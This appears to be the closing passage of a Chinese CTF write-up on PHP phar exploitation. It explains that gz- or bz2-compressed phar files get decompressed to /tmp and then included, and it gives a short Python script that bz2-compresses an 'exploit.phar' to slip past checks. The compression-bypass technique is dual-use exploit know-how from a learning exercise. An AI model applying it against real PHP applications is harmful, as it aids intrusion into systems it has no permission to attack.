

我们以gz文件为例子谈谈。

检测到是gz文件，然后解压缩到 /tmp/下面的一个随机文件，再次包含的时候fp指针指向的是tmp下面的那个解压后的文件。

随便拿个bz2来进行测试肯定也行

```python
import bz2
input_file = 'exploit.phar'
output_file = 'exploit.phar.bz2'
with open(input_file, 'rb') as f_in:
    with bz2.open(output_file, 'wb') as f_out:
        f_out.write(f_in.read())
```



## 小结

比赛过程很坐牢，复现很舒服
